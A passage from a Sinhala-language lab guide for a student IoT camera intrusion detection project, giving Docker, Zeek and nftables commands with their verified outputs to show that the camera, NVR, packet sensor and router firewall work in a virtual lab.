     ```

   *(12 Nov 2026 දින cold start එකෙන් ලැබූ සැබෑ පිළිතුර. Containers 11 ම running බවත්, Router sets හිස් බවත්, Zeek `conn.log` ලියන බවත්, pipeline එක running බවත් තහවුරු වේ. ආරම්භයේදී flows ගණන සහ latency අගයන් කුඩා/අස්ථාවරයි; මිනිත්තු කිහිපයකට පසු latency median එක ~115 ms වේ.)*

---

#### ප්‍රයෝජනවත් අමතර විධානයන් (Management Commands):

- **ප්‍රහාරයකින් පසු සියලු Blocks ඉවත් කර පද්ධතිය Reset කිරීමට:**

  - **ක්‍රමය A: සෘජු Router Firewall Reset විධානය (Direct Raw Command):**
    ```powershell
    # Router Kernel Drop සහ Rate-Limit Sets සියල්ල ක්ෂණිකව හිස් කර පිරිසිදු කිරීම:
    docker exec ids-lab-router nft flush set inet ids block_src
    docker exec ids-lab-router nft flush set inet ids block_dst
    docker exec ids-lab-router nft flush set inet ids limit_src
    ```

  - **ක්‍රමය B: පහසු Controller කෙටි විධානය (Convenient Reset Shortcut):**
    ```powershell
    .venv\Scripts\python.exe lab_virtual\lab.py reset
    ```
    *(මෙමඟින් IDS API එක හරහා සියලු active blocks ඉවත් කර (database එකේ `removed` ලෙස සටහන් වේ, audit records ද ලියවේ), Router එකේ sets තුනම හිස් කරයි. ක්‍රමය A මඟින් router එක පමණක් හිස් වන අතර database එකේ blocks "active" ලෙස ඉතිරි වේ; එබැවින් **ක්‍රමය B භාවිත කරන්න**.)*

    **ලැබෙන පිළිතුර:**
    ```text
    removed 1 block(s) through the IDS
    router sets now: {'block_src': [], 'block_dst': [], 'limit_src': []}
    ```

- **පරීක්ෂණ අවසානයේ සියල්ල සම්පූර්ණයෙන්ම Stop කිරීමට:**

  - **ක්‍රමය A: සෘජු විධානයන් (Direct Raw Commands):**
    ```powershell
    # 1. Background එකේ දුවන Backend Server process එක නැවැත්වීම:
    Get-CimInstance Win32_Process -Filter "Name='python.exe'" | Where-Object { $_.CommandLine -like '*core_engine.app*' } | ForEach-Object { Stop-Process -Id $_.ProcessId -Force }

    # 2. Docker Containers සහ Virtual Bridges සියල්ල සම්පූර්ණයෙන්ම වසා Memory නිදහස් කිරීම:
    docker compose -f lab_virtual\docker-compose.yml down
    ```

  - **ක්‍රමය B: පහසු Controller කෙටි විධානය (Convenient Stop Shortcuts):**
    ```powershell
    .venv\Scripts\python.exe lab_virtual\lab.py ids-stop   # Backend server එක නවත්වයි
    .venv\Scripts\python.exe lab_virtual\lab.py down       # Containers 11 ම නවතා ඉවත් කරයි
    ```
  >

---

### 4.2.1 කැමරාවේ සේවාවන් තහවුරු කිරීම (IP Camera Dual Services Verification)

> 🎯 **Proposal එකේ මෙම පරීක්ෂණයෙන් සාක්ෂාත් වන අරමුණ සහ ඔප්පු වන කරුණු (What this Test Proves):**
>
> - **ඉටුවන පර්යේෂණ අරමුණ (Objective):** **Section 5.1** ("The laboratory will have at least one IP camera or an approved camera simulator serving dual services") සහ **Objective O4**.
> - **අදාළ පරීක්ෂණ අවස්ථාව (Table 10 Scenario):** **Table 10 Scenario 1** ("Normal live streaming and playback baseline").
> - **මෙය සිදු කළේ ඇයි? (Core Rationale):** ජාලය තුළ අප ආරක්ෂා කරන ප්‍රධාන IoT උපාංගය වන IP Camera එක සැබවින්ම පණගැන්වී ඇති බවත්, එය ලොව සම්මත IP Camera protocols වන **Port 80 (HTTP Web Configuration)** සහ **Port 554 (RTSP Video Streaming)** යන ද්විත්ව සේවාවන් සක්‍රියව සපයන බවත් තහවුරු කිරීමටයි.
> - **Supervisor ට කියන සාරාංශ සාක්ෂිය:** *"Sir, this satisfies Section 5.1 and Table 10 Scenario 1. Our camera at 192.168.50.30 is actively providing dual services: HTTP on port 80 for device management and RTSP on port 554 for real-time video payload."*

- **ධාවනය කළ යුතු Command එක (Terminal):**

  ```powershell
  docker logs ids-lab-camera --tail 5
  ```

  > **කේතයෙන් සිදුවන දේ සරලව (Command Breakdown):**
  >
  > - **`docker logs`:** Container එක ඇතුළේ ධාවනය වන සේවාවන් මඟින් නිකුත් කරන ලද System Logs කියවන්න.
  > - **`ids-lab-camera`:** පරීක්ෂා කළ යුතු කැමරා Container එකේ නම.
  > - **`--tail 5`:** මුළු logs පේළි දහස් ගණනක් නොපෙන්වා, අන්තිමටම සටහන් වූ පේළි 5 පමණක් පෙන්වන්න.
  >
- **ලැබෙන සැබෑ පිළිතුර (Verified Output):**

  ```text
  camera services up (web :80, stream :554); cloud = 10.10.10.123
  ```
- **මෙයින් ඔප්පු වන කරුණ:** කැමරාව (`192.168.50.30`) සැබවින්ම ක්‍රියාත්මක වන අතර, එය වීඩියෝ (RTSP 554) සහ වෙබ් (HTTP 80) සේවාවන් සැපයීමට සූදානම්ව පවතී.

---

### 4.2.2 NVR එක වෙත වීඩියෝ දත්ත නොකඩවා ගලා ඒම තහවුරු කිරීම (NVR Continuous Video Ingestion)

> 🎯 **Proposal එකේ මෙම පරීක්ෂණයෙන් සාක්ෂාත් වන අරමුණ සහ ඔප්පු වන කරුණු (What this Test Proves):**
>
> - **ඉටුවන පර්යේෂණ අරමුණ (Objective):** **Section 5.1** ("An NVR or recording service receiving continuous video feeds") සහ **Objective O5**.
> - **විසඳෙන පර්යේෂණ ගැටලුව / ඉලක්කය (Target):** **Table 9 (Benign Safety Acceptance Criteria)** — "Zero Stream Interruption on camera video feeds".
> - **අදාළ පරීක්ෂණ අවස්ථාව (Table 10 Scenario):** **Table 10 Scenario 1** ("Normal live streaming and playback: traffic summary keeps working").
> - **මෙය සිදු කළේ ඇයි? (Core Rationale):** සාමාන්‍ය අවස්ථාවේදී ජාල කේබලය (Virtual Bridge) හරහා සැබවින්ම අධික දත්ත ප්‍රමාණයක් (High Bandwidth Traffic ~200 KB/s) ගලා යන බවත්, NVR එක විසින් කිසිදු දත්ත බිඳවැටීමකින් තොරව කැමරාවේ වීඩියෝව එක දිගට පටිගත කරගන්නා බවත් ඔප්පු කිරීමටයි.
> - **Supervisor ට කියන සාරාංශ සාක්ෂිය:** *"Sir, this satisfies Table 9 Benign Safety and Scenario 1. The NVR at 192.168.50.20 receives the camera's stream over port 554 without a break: every 5-minute segment is 58.6 MB (about 200 KB/s). The stream is simulated data, not real video."*

- **ධාවනය කළ යුතු Command එක (Terminal):**

  ```powershell
  docker logs ids-lab-nvr --tail 5
  ```

  > **කේතයෙන් සිදුවන දේ සරලව (Command Breakdown):**
  >
  > - **`docker logs`:** Container එක තුළ ධාවනය වන සේවාවන් මඟින් ලියන ලද System Logs කියවන්න.
  > - **`ids-lab-nvr`:** පරීක්ෂා කළ යුතු NVR Recorder Container එකේ නම.
  > - **`--tail 5`:** අන්තිමටම සටහන් වූ වීඩියෝ පටිගත කිරීම් (recordings) පිළිබඳ logs පේළි 5 පමණක් පෙන්වන්න.
  >
- **ලැබෙන සැබෑ පිළිතුර (Verified Output):**

  ```text
  17:49:31 NVR: recorded 58.6 MB
  17:54:31 NVR: recorded 58.6 MB
  17:59:31 NVR: recorded 58.6 MB
  18:04:31 NVR: recorded 58.6 MB
  ```
  *(සටහන: NVR එක පළමු පේළිය ලියන්නේ lab එක ආරම්භ කර **මිනිත්තු 5 කට පසුවයි**. ඊට පෙර `docker logs ids-lab-nvr` හිස්ය - එය දෝෂයක් නොවේ.)*
- **මෙයින් ඔප්පු වන කරුණ:** සෑම මිනිත්තු 5 කට වරක්ම මෙගාබයිට් 58.6 ක දත්ත (තත්පරයකට ~200 KB, simulator එකේ අහඹු bytes) Virtual Switch එක (`br-ids-lan`) හරහා NVR එක වෙත නොකඩවා ගලා එයි. සෑම segment එකක්ම 58.6 MB වීම stream එක නොකැඩුණු බවට සාක්ෂියකි.

---

### 4.2.3 Admin PC කළමනාකරණය සහ Camera Web GUI තහවුරු කිරීම (Admin Management Plane & Visual GUI)

> 🎯 **Proposal එකේ මෙම පරීක්ෂණයෙන් සාක්ෂාත් වන අරමුණ සහ ඔප්පු වන කරුණු (What this Test Proves):**
>
> - **ඉටුවන පර්යේෂණ අරමුණ (Objective):** **Section 3.6** ("Device Management Plane") සහ **Section 5.1** ("Administrator workstation with camera management capabilities").
> - **සම්පූර්ණ වන ක්‍රියාකාරී අවශ්‍යතාවය (Requirement):** **FR-05 Management Plane Verification**.
> - **අදාළ පරීක්ෂණ අවස්ථාව (Table 10 Scenario):** **Table 10 Scenario 1** ("Administrator login, video playback and device discovery").
> - **මෙය සිදු කළේ ඇයි? (Core Rationale):** ජාලය තුළ සිටින ආරක්ෂක පරිපාලකයාට (Admin PC `192.168.50.10`) කැමරාවේ Web UI එක (Port 80) සාමාන්‍ය පරිදි විවෘත වන බවත්, එය හුදෙක් terminal response එකක් පමණක් නොව සැබෑ Web Browser එකකින් (Chrome/Edge) දර්ශනය වන සැබෑ Dark Mode Interface එකක් බවත් තහවුරු කිරීමටයි.
> - **Supervisor ට කියන සාරාංශ සාක්ෂිය:** *"Sir, this satisfies Section 3.6 and Section 5.1. The Admin PC on 192.168.50.10 opens the camera web interface on port 80 (HTTP 200, 5,478 bytes), and the same page can be shown in a normal browser."*

- **අ) Terminal පරීක්ෂාව (CLI Proof):**

  ```powershell
  docker exec ids-lab-admin python -c "import urllib.request; res = urllib.request.urlopen('http://192.168.50.30/').read().decode(); print('Title:', [line for line in res.splitlines() if '<title>' in line]); print('Status: HTTP 200 OK | Bytes received:', len(res))"
  ```

  > **කේතයෙන් සිදුවන දේ සරලව (Line-by-Line Breakdown):**
  >
  > - **`docker exec ids-lab-admin`:** Admin PC Container එක ඇතුළට ගොස් විධානයක් ක්‍රියාත්මක කරන්න.
  > - **`python -c "..."`:** Python කේතයක් inline ලෙස කෙලින්ම ධාවනය කරන්න.
  > - **`urllib.request.urlopen('http://192.168.50.30/').read().decode()`:** Admin PC එකේ සිට කැමරාවේ Web Server එක (`192.168.50.30:80`) වෙත HTTP GET Request එකක් යවා එහි ප්‍රතිචාරය (HTML text) කියවන්න.
  > - **`print('Title:', ...)`:** ලැබුණු වෙබ් පිටුවේ Title Tag එක (`<title>`) සොයා print කරන්න.
  > - **`print('Status: HTTP 200 OK | Bytes received:', len(res))`:** වෙබ් පිටුව සාර්ථකව ලැබුණු බව සහ ලැබුණු සම්පූර්ණ දත්ත ප්‍රමාණය (Bytes 5,478 ක්) print කරන්න.
  >

  **ලැබෙන පිළිතුර:**

  ```text
  Title: ['    <title>Lab IP Camera - Live Web Interface</title>']
  Status: HTTP 200 OK | Bytes received: 5478
  ```
- **ආ) Browser එකෙන් සැබෑ GUI එක විවෘත කිරීම (Visual Browser Proof):**

  ```powershell
  docker exec ids-lab-admin python -c "import urllib.request; open('/tmp/camera_preview.html', 'wb').write(urllib.request.urlopen('http://192.168.50.30/').read())"
  docker cp ids-lab-admin:/tmp/camera_preview.html "$env:TEMP\camera_preview.html"
  Start-Process "$env:TEMP\camera_preview.html"
  ```

  > **කේතයෙන් සිදුවන දේ සරලව (Line-by-Line Breakdown):**
  >
  > - **`open('/tmp/camera_preview.html', 'wb').write(...)`:** Admin container එක මඟින් කැමරාවෙන් බාගත කළ සම්පූර්ණ HTML වෙබ් පිටුව එහි `/tmp` ෆෝල්ඩරයේ සුරකියි.
  > - **`docker cp ids-lab-admin:/tmp/... "$env:TEMP\camera_preview.html"`:** Container එක ඇතුළේ ඇති HTML ගොනුව ඔබගේ Windows පරිගණකයේ Temp ෆෝල්ඩරයට පිටපත් (copy) කරගනී (project ෆෝල්ඩරයට අමතර ගොනුවක් නොඑකතු වේ).
  > - **`Start-Process "$env:TEMP\camera_preview.html"`:** Windows වල ඇති default Web Browser එක (Chrome හෝ Edge) මඟින් එම HTML වෙබ් පිටුව තිරය මත විවෘත කරයි.
  >
- **මෙයින් ඔප්පු වන කරුණ:** කැමරාවේ Web UI එක ඔබගේ පරිගණකයේ Chrome හෝ Edge බ්‍රවුසරය තුළ Dark Mode පිටුවක් ලෙස විවෘත වේ. *(අවංක සටහන: පිටුවේ ඇති "1920x1080 @ 25 fps" වැනි අගයන් simulator පිටුවේ ලියා ඇති ස්ථාවර text ය; සැබෑ වීඩියෝ resolution එකක් නොවේ. `docker cp` කළ පිටුව offline පිටපතක් බැවින් එහි live දත්ත update නොවේ.)*
- **Supervisor ට පැහැදිලි කරන ආකාරය:**

  > *"Sir, the Admin PC on 192.168.50.10 can successfully poll the camera web interface on port 80. By exporting the response, we can render the camera's full live management UI directly in the browser."*
  >

---

### 4.2.4 Zeek Sensor මඟින් Promiscuous Sniffing සහ Connection Logs සෑදීම (Flow Extraction - FR-01 & RQ3)

> 🎯 **Proposal එකේ මෙම පරීක්ෂණයෙන් සාක්ෂාත් වන අරමුණ සහ ඔප්පු වන කරුණු (What this Test Proves):**
>
> - **ඉටුවන පර්යේෂණ අරමුණ (Objective):** **Objective O3** ("Make flow features from live IP-camera traffic that match the dataset").
> - **සම්පූර්ණ වන ක්‍රියාකාරී අවශ්‍යතාවය (Requirement):** **Table 7 FR-01 (Must)** — "Capture mirrored or inline network traffic, and make connection flows from it (Priority: Must / schema test)".
> - **විසඳෙන පර්යේෂණ ගැටලුව (Research Question):** **RQ3** ("Which flow features stay available and stay the same in both IoT-23 and live camera traffic made by Zeek?").
> - **මෙය සිදු කළේ ඇයි? (Core Rationale):** පද්ධතිය කිසිදු ව්‍යාජ (dummy) හෝ කලින් හදන ලද static logs කියවන්නේ නැති බවත්, Zeek Sensor එක කිසිදු IP එකක් නැතිව switch එකට Promiscuous mode එකෙන් සවන් දී සැබෑ binary packets කියවන බවත්, එම සජීවී දත්ත වලින් training එකේදී භාවිත කළ **එකම කේතයෙන්** (zero training-serving skew) features 27 ම **එකම ආකෘතියෙන් (columns, types, ranges)** සෑදෙන බවත් ඔප්පු කිරීමටයි. *(අවංක සටහන: ආකෘතිය සමාන වුවද, අගයන්ගේ ව්‍යාප්තිය (distribution) IoT-23 ට වඩා බොහෝ වෙනස්ය - පහත සාක්ෂිය 3 බලන්න.)*
> - **Supervisor ට කියන සාරාංශ සාක්ෂිය:** *"Sir, this satisfies Objective O3, Table 7 FR-01, and Research Question RQ3. Through live packet injection, Zeek's TCP state machine flags, and our automated schema check, we show real-time packet capture and flow extraction. The live flows have the same 27-feature format as the training data; their value distributions differ from IoT-23, which is part of our RQ3 answer."*

> 💡 **සරල පැහැදිලි කිරීම: "Promiscuous Mode" යනු කුමක්ද? (What is Promiscuous Mode?):**
> 
> - **සාමාන්‍ය තත්ත්වය (Normal Mode):** සාමාන්‍යයෙන් ඕනෑම පරිගණකයක Network Card (NIC) එකක් තමන්ගේම MAC ලිපිනයට (තමන්ගේ නමට) එවන දත්ත පැකට් පමණක් බාරගෙන කියවයි. වෙනත් උපාංග දෙකක් අතර හුවමාරු වන පැකට් තමන්ට අදාළ නැති බැවින් නිකන්ම Ignore (drop) කරයි.
> - **Promiscuous Mode ("සියල්ලටම සවන්දෙන" විවෘත තත්ත්වය):** Network Card එකේ ඇති MAC address filtering එක සම්පූර්ණයෙන්ම අක්‍රිය කර, එම Network Switch එක හෝ Cable එක හරහා ගමන් කරන **ඕනෑම උපාංගයකට අයිති සෑම packet එකක්ම (Every raw Ethernet frame)** තමන් වෙත ඇදගෙන කියවීමට ඉඩදීමයි (Sniffing all traffic).
> - **අපගේ Project එකට මෙය වැදගත් වන්නේ ඇයි?**
>   - අපගේ IP Camera (`192.168.50.30`) සහ NVR Recorder (`192.168.50.20`) අතර වීඩියෝ ගමන් කරයි. Attacker (`10.10.10.50`) සහ Camera අතර ප්‍රහාරක packets ගමන් කරයි.
>   - මෙම packets යන්නේ Zeek Sensor එක වෙත නොවේ (Zeek එකට තමන්ගේම IP ලිපිනයක්වත් නැත - එය Passive Listener එකකි).
>   - නමුත් Zeek Sensor එක Camera Switch එකට (`br-ids-lan`) **Promiscuous Mode** එකෙන් සම්බන්ධ කර ඇති බැවින්, ජාලයේ ගමන් කරන කිසිදු දත්තයකට බාධාවක් හෝ පමාවක් නොකර (Zero latency impact / Zero packet drop), කැමරාවේ සියලුම සැබෑ Video සහ ප්‍රහාරක Packets පිටපත් කරගෙන විශ්ලේෂණය කිරීමට Zeek හට හැකියාව ලැබේ! *(සැබෑ Hardware Lab එකේදී මෙය Switch එකේ Port Mirroring / SPAN Port මඟින් සිදු කෙරේ).*

#### අ) Sensor තත්ත්වය බැලීම:

```powershell
docker logs ids-lab-sensor --tail 3
```

> **කේතයෙන් සිදුවන දේ සරලව (Command Breakdown):**
>
> - **`docker logs ids-lab-sensor`:** Zeek Sensor Container එකේ System Logs කියවන්න.
> - **`--tail 3`:** Sensor එක Linux switch එකට (`br-ids-lan`) සවන් දීමට පටන් ගත් බව තහවුරු කරන අන්තිම පේළි 3 පෙන්වන්න.

**ලැබෙන පිළිතුර:** `listening on br-ids-lan`

#### ආ) සැබෑ Zeek Flow Logs බැලීම:

```powershell
Get-Content lab_virtual\zeek_logs\conn.log -Tail 3
```

> **කේතයෙන් සිදුවන දේ සරලව (Command Breakdown):**
>
> - **`Get-Content`:** Windows PowerShell හි ගොනු කියවීමේ විධානයයි (Linux වල `cat` හෝ `tail` වැනි).
> - **`lab_virtual\zeek_logs\conn.log`:** Zeek Sensor එක විසින් සජීවීව ලියන ප්‍රධාන Connection Log ගොනුවේ මාර්ගයයි (Path).
> - **`-Tail 3`:** ගොනුවේ අන්තිමටම ලියවුණු අලුත්ම Connection Flows 3 පමණක් පෙන්වන්න.

**ලැබෙන පිළිතුර (JSON text):**

```json
{"ts":1794506371.875058,"uid":"CYVPd93UdqafFbq96j","id.orig_h":"192.168.50.20","id.orig_p":33062,"id.resp_h":"192.168.50.30","id.resp_p":554,"proto":"tcp","duration":300.1275751590729,"orig_bytes":39,"resp_bytes":58604000,"conn_state":"RSTO","local_orig":true,"local_resp":true,"missed_bytes":58559680,"history":"ShADadggggFR","orig_pkts":2997,"orig_ip_bytes":155879,"resp_pkts":2996,"resp_ip_bytes":58759800,"ip_proto":6}
```

*(12 Nov 2026 දින ලබාගත් NVR → කැමරා stream පේළියකි (`-Tail 3` මඟින් ඔබට ලැබෙන්නේ එම මොහොතේ අවසන් වූ ඕනෑම flows 3 කි). NVR එක (`orig`) යවන්නේ `PLAY` request එක පමණි (`orig_bytes: 39`); කැමරාව (`resp`) තත්පර 300 ක segment එකකදී bytes 58,604,000 යවයි (`resp_bytes`). Zeek මෙය `rtsp` ලෙස නම් නොකරයි (`service` නැත). `missed_bytes` විශාල වන්නේ Docker virtual network එක ඉතා විශාල (merged) packets යවන බැවින් Zeek ට payload එකේ කොටස් නොපෙනෙන නිසාය; bytes ගණන TCP sequence numbers වලින් නිවැරදිව ගණනය වේ.)*

---

#### ඇ) Zeek සැබවින්ම Binary Ethernet Packets කියවන බව සජීවීව ඔප්පු කිරීමේ ක්‍රම 3 (Definitive Proofs of Live Packet Sniffing):

Supervisor විසින් ඔබෙන්: **"Zeek එක ඇත්තටම live packets කියවනවා කියලා ඔප්පු කරන්නේ කොහොමද? මේක කලින් හදපු log file එකක් නෙවෙයි කියලා ෂුවර්ද?"** කියා ඇසුවහොත්, එම මොහොතේදීම ඔප්පු කිරීමට පහත ක්‍රම 3 භාවිතා කරන්න:

1. **සාක්ෂිය 1: සජීවීව Packet එකක් යවා Zeek එක එම තත්පරයේදීම එය ලියන බව පෙන්වීම (Live Injection Test):**
   Terminal එකේ Admin PC එකෙන් කැමරාවට සජීවී HTTP Request එකක් යවා, Zeek එකේ අන්තිම පේළිය බලන්න:

   ```powershell
   docker exec ids-lab-admin python -c "import urllib.request; urllib.request.urlopen('http://192.168.50.30/')"
   Start-Sleep -Seconds 7
   Get-Content lab_virtual\zeek_logs\conn.log | Select-String '"id.orig_h":"192.168.50.10"' | Select-Object -Last 1
   ```

   > **කේතයෙන් සිදුවන දේ සරලව (Line-by-Line Breakdown):**
   >
   > - **`docker exec ids-lab-admin`:** ක්‍රියාත්මක වන Admin PC container එක ඇතුළට ගොස් විධානයක් run කරන්න.
   > - **`python -c "..."`:** Container එක තුළ ඇති Python මඟින් inline command එකක් run කරන්න (`-c` = command).
   > - **`import urllib.request; urllib.request.urlopen('http://192.168.50.30/')`:** Admin PC එකේ සිට කැමරාවේ IP එක වන `192.168.50.30` හි Port 80 (Web Server) වෙත සැබෑ HTTP GET request එකක් යවන්න (හරියට browser එකකින් web page එකක් open කළා වගේ).
   > - **`Start-Sleep -Seconds 7`:** Zeek පේළිය ලියන්නේ connection එක වැසී තත්පර ~5 කට පසුව (`tcp_close_delay`) බැවින් තත්පර 7 ක් රැඳී සිටින්න. පෙනෙන පේළියේ `ts` අගය command එක run කළ වේලාවට ගැළපිය යුතුය.
   > - **`Get-Content ... | Select-String '"id.orig_h":"192.168.50.10"' | Select-Object -Last 1`:** Admin PC (`.10`) ආරම්භ කළ අලුත්ම flow පේළිය පමණක් පෙන්වන්න. (`-Tail 1` පමණක් භාවිත කළහොත්, ඒ අතරතුර ලියවුණු කැමරාවේ DNS/NTP පේළියක් පෙනිය හැක.)
   >

   **ලැබෙන සැබෑ පිළිතුර:**

   ```json
   {"ts":1794505532.932928,"uid":"CYzNbZ35NI4WfHCrf4","id.orig_h":"192.168.50.10","id.orig_p":35832,"id.resp_h":"192.168.50.30","id.resp_p":80,"proto":"tcp","service":"http","duration":0.0012128353118896484,"orig_bytes":127,"resp_bytes":153,"conn_state":"SF","local_orig":true,"local_resp":true,"missed_bytes":0,"history":"ShADadfF","orig_pkts":6,"orig_ip_bytes":447,"resp_pkts":6,"resp_ip_bytes":473,"ip_proto":6}
   ```

   **විද්‍යාත්මක සාක්ෂිය:**

   - **`orig_pkts: 6` සහ `resp_pkts: 6`:** Admin සහ Camera අතර හුවමාරු වූ සැබෑ Ethernet frames 12 ම Zeek විසින් kernel interface එකෙන් අල්ලාගෙන ඇත.
   - **`history: "ShADadfF"`:** Zeek හි TCP State Machine එක මඟින් TCP 3-Way Handshake (`S`=SYN, `h`=SYN-ACK, `A`=ACK), HTTP දත්ත (`D`, `a`, `d`), සහ Connection Close (`f`, `F`) යන සැබෑ flags එකින් එක කියවා ඇත. මෙය කලින් ලියන ලද ගොනුවක් නොවන බවත්, සජීවීව sniff කළ එකක් බවත් තහවුරු වේ!
2. **සාක්ෂිය 2: Zeek Kernel Link-Layer Packet Counters (`stats.log`):**
   Zeek විසින් Linux socket එකෙන් ලබාගත් binary packets සහ bytes ප්‍රමාණය කෙලින්ම සටහන් කරයි:

   ```powershell
   Get-Content lab_virtual\zeek_logs\stats.log -Tail 1
   ```

   > **කේතයෙන් සිදුවන දේ සරලව (Line-by-Line Breakdown):**
   >
   > - **`Get-Content lab_virtual\zeek_logs\stats.log`:** Zeek Sensor එක විසින් Linux kernel socket එකෙන් ලබාගන්නා දත්ත ප්‍රමාණ සහ packet counts සටහන් කරන `stats.log` ගොනුව කියවන්න.
   > - **`-Tail 1`:** පසුගිය තත්පර 60 තුළ සටහන් වූ අන්තිම පේළිය පමණක් screen එකේ පෙන්වන්න.
   >

   **ලැබෙන සැබෑ පිළිතුර:**

   ```json
   {"ts":1794505533.893805,"peer":"zeek","mem":269,"pkts_proc":1270,"bytes_recv":11816346,"pkts_dropped":0,"pkts_link":1270,"pkt_lag":0.002157926559448242,"events_proc":192,"events_queued":187,"active_tcp_conns":4,"active_udp_conns":2, ...}
   ```

   **විද්‍යාත්මක සාක්ෂිය:** Zeek විසින් පසුගිය තත්පර 60 තුළ kernel socket එකෙන් binary Ethernet packets **1,270 ක්** සහ **11,816,346 bytes (~11.8 MB)** (බොහෝමයක් කැමරා stream එක) කෙලින්ම කියවා ඇති බව ඔප්පු වේ (`pkts_dropped: 0`). `stats.log` පේළියක් ලියවෙන්නේ මිනිත්තුවකට වරක් බැවින්, lab එක ආරම්භ කර මිනිත්තුවක් යනතුරු මෙය හිස් විය හැක.
3. **සාක්ෂිය 3: Proposal FR-01 ස්වයංක්‍රීය Schema විග්‍රහය (`schema_check.py`):**
   `conn.log` හි ඇති සෑම flow එකකම columns, types, nulls, සහ ranges නිවැරදිදැයි පරීක්ෂා කිරීම:

   ```powershell
   .venv\Scripts\python.exe tools\schema_check.py --live-path lab_virtual\zeek_logs\conn.log --source real
   ```

   > **කේතයෙන් සිදුවන දේ සරලව (Line-by-Line Breakdown):**
   >
   > - **`.venv\Scripts\python.exe tools\schema_check.py`:** Live network flows වල දත්ත ගුණාත්මකභාවය සහ schema නිවැරදි බව පරීක්ෂා කරන ස්වයංක්‍රීය Python Audit මෙවලම ධාවනය කරන්න.
   > - **`--live-path lab_virtual\zeek_logs\conn.log`:** පරීක්ෂා කිරීමට අවශ්‍ය සජීවී Zeek log ගොනුවේ path එක ලබාදෙන්න.
   > - **`--source real`:** මෙය කෘතිම දත්ත නොව සැබෑ Zeek සජීවී දත්ත බව තහවුරු කර, අපේ ML Model එක පුහුණු කළ IoT-23 dataset schema එක සමඟ statistical distribution tests (KS-tests) සංසන්දනය කරන්න.
   >

   **ලැබෙන සැබෑ පිළිතුර:**

   ```text
   [INFO] [zeek_adapter] Offline sample size: 1384070 rows | Live sample size: 3089 rows
   [INFO] [zeek_adapter] Schema Audit Results: Columns=True | Dtypes=True | Nulls=True | Ranges=True | Inference=True => OVERALL=PASS
   [INFO] [zeek_adapter] Format check passed (see the report for distribution and category differences).
   ```

   **විද්‍යාත්මක සාක්ෂිය:** සජීවී flows (12 Nov 2026 දින 3,089 ක්; ගණන lab එක ධාවනය වූ කාලය අනුව වැඩි වේ) features 27 ම **එකම columns, types, හිස් අගයන් නැතිව, නිවැරදි ranges** සමඟ සෑදෙන බවත්, Model එක ඒවා දෝෂයකින් තොරව භාවිත කරන බවත් (FR-01 schema test) ඔප්පු වේ.

   ⚠️ **අවංක සටහන (RQ3):** `PASS` යනු **ආකෘතිය (format)** සමාන බව පමණි. අගයන්ගේ ව්‍යාප්තිය සැසඳූ විට features 27 න් **15 ක්** IoT-23 ට වඩා බොහෝ වෙනස්ය (KS ≥ 0.3; `reports/schema_check.md`). මෙය දෝෂයක් නොව, IoT-23 සහ අපේ කැමරා traffic අතර වෙනසයි; RQ3 පිළිතුරේ කොටසක් ලෙස වාර්තා කළ යුතුය. සැබෑ කැමරාවක් සමඟ අවසන් පිළිතුර Hardware Lab එකෙන් ලැබේ.
   *(සටහන: මෙම command එක `reports/schema_check.md` සහ `.csv` නැවත ලියයි. Demo එකකදී පමණක් run කළේ නම්, පසුව `git checkout -- reports/schema_check.md` මඟින් සුරැකි වාර්තාව නැවත ලබාගත හැක.)*

- **Supervisor ට පැහැදිලි කරන ආකාරය:**
  > *"Sir, this shows FR-01 working. When we send a live HTTP request from the Admin PC, Zeek records the connection with its 12 packets (6 each way) and the TCP flags 'ShADadfF'. Zeek's stats.log shows about 1,270 packets and 11.8 MB per minute with zero dropped packets. The schema check passes on format; the value distributions differ from IoT-23, and we report that as part of RQ3."*
  >

---

### 4.2.5 Linux nftables Firewall එක Router එක තුළ ක්‍රියාත්මක වීම (Firewall Ruleset & Allowlist - FR-06 & FR-07)

> 🎯 **Proposal එකේ මෙම පරීක්ෂණයෙන් සාක්ෂාත් වන අරමුණ සහ ඔප්පු වන කරුණු (What this Test Proves):**
>
> - **ඉටුවන පර්යේෂණ අරමුණ (Objective):** **Objective O5** ("Build IP blocking that follows the policy, and let the admin undo it by hand").
> - **සම්පූර්ණ වන ක්‍රියාකාරී අවශ්‍යතා (Requirements):** **Table 7 FR-06 (Must)** ("Add, list, expire and remove blocking rules on the firewall or router") සහ **FR-07 (Must)** ("Keep the allowlists, the confidence thresholds, and a full audit history").
> - **විසඳෙන පර්යේෂණ ගැටලුව (Research Question):** **RQ5** ("What safety rules do we need so that automatic response does not stop normal camera access?").
> - **මෙය සිදු කළේ ඇයි? (Core Rationale):** සැබෑ Linux kernel එකේ `nftables` packet filtering firewall එක Router එක තුළ ක්‍රියාත්මක වන බවත්, කළමනාකරණ උපාංග (Router, Sensor, Admin, NVR) ආරක්ෂා කරන Allowlist එකක් (`set allow`) සහ ස්වයංක්‍රීයව expire වන Drop sets (`block_dst`, `limit_src`) එහි සූදානම්ව පවතින බවත් ඔප්පු කිරීමටයි.
> - **Supervisor ට කියන සාරාංශ සාක්ෂිය:** *"Sir, this satisfies Objective O5, FR-06, FR-07, and Research Question RQ5. The router enforces native Linux nftables. Notice the allowlist set protecting the router, sensor, management PC and NVR (FR-07), alongside dynamic auto-expiring sets block_dst, block_src, and limit_src (FR-06)."*

- **ධාවනය කළ යුතු Command එක (Terminal):**

  ```powershell
  docker exec ids-lab-router nft list table inet ids
  ```

  > **කේතයෙන් සිදුවන දේ සරලව (Command Breakdown):**
  >
  > - **`docker exec ids-lab-router`:** Linux Router Container එක ඇතුළට ගොස් විධානයක් ක්‍රියාත්මක කරන්න.
  > - **`nft`:** Linux වල ඇති නවීනතම Kernel Packet Filtering Firewall මෙවලම (Netfilter Tables).
  > - **`list table inet ids`:** Router එකේ active කර ඇති `ids` නම් firewall table එකේ ඇති sets, allowlists, සහ drop rules සියල්ල screen එකේ පෙන්වන්න.
  >
- **ලැබෙන සැබෑ පිළිතුර (Verified Output):**

  ```text
  table inet ids {
  	set allow {
  		type ipv4_addr
  		elements = { 192.168.50.1, 192.168.50.5,
  			     192.168.50.10, 192.168.50.20 }
  	}

  	set block_src {
  		type ipv4_addr
  		flags timeout
  	}

  	set block_dst {
  		type ipv4_addr
  		flags timeout
  	}

  	set limit_src {
  		type ipv4_addr
  		flags timeout
  	}

  	chain forward {
  		type filter hook forward priority filter; policy accept;
  		ip saddr @allow accept
  		ip saddr @block_src drop
  		ip daddr @block_dst drop
  		ip saddr @limit_src limit rate over 200/second burst 5 packets drop
  	}
  }
  ```

  > **ලැබුණු Firewall නීති වල තේරුම (Output Breakdown):**
  >
